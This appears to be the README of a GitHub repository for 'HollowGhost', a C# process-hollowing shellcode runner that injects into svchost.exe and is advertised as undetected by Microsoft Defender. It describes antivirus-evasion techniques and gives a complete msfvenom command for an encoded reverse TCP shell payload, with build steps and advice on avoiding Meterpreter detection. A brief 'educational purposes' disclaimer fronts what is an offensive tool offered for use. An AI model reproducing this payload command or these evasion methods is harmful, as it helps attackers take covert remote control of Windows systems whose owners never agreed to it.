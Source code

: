 # HollowGhost :ghost:
Process hollowing C# shellcode runner that is FUD against Microsoft Defender as of October 7, 2023.

HollowGhost performs process hollowing injection into **svchost.exe** on Windows.

This shellcode runner is currently FUD by Microsoft Defender at scan-time, runtime, and during on-demand scanning with an active shell.

**Disclaimer**: The resources provided are only for educational and research purposes. I am, in no way, responsible for any misuse of these resources. The resources shown here should only be used legally for ethical hacking.

There are currently two versions of this shellcode runner.

The only difference between the two:

- **HollowGhost** utilizes string concatenation to obfuscate the file path string "C:\Windows\System32\svchost.exe" passed to the CreateProcess Win32 API function.

- **HollowGhostEncPath** utilizes AES encryption with a dynamically generated IV and key to obfuscate the file path string "C:\Windows\System32\svchost.exe" passed to the CreateProcess Win32 API function.

Both versions of the shellcode runner use custom delegate functions to obfuscate the Win32 API function calls and evade antivirus.

**Payload**:

`msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.X.X LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key z -i 20 | tr -d '\n\r'`

**Note**: Using a Meterpreter payload will result in detection if an on-demand scan is performed while the shell session is active. Therefore, stick to payloads that don't use Meterpreter.

## Instructions
To keep things contained to one repository, both projects are within the HollowGhost.sln solution.
- Clone the repository `git clone https://github.com/Logan-Elliott/HollowGhost.git`
- Open the HollowGhost.sln solution file with Visual Studio
- Set build configuration to Release
- Set platform to x64
- Good to go :thumbsup:

## Windows 11 Build Tested
![win11-build](https://github.com/Logan-Elliott/HollowGhost/assets/57501260/f3258ab1-4922-4108-94c6-b3df24ffa150)

## HollowGhost: FUD During On-Demand Scanning With Shell
![hollowghost-fud-on-demand-scan](https://github.com/Logan-Elliott/HollowGhost/assets/57501260/3065b190-f29c-483a-8686-d11fadf5fdad)

## HollowGhostEncPath: FUD During On-Demand Scanning With Shell
![enc-path-fud-on-demand-scan](https://github.com/Logan-Elliott/HollowGhost/assets/57501260/a46a9013-30e7-4724-98a0-96baf640e623)

## To-Do List
- [ ] Edit code to output PID of the created svchost.exe process to the console
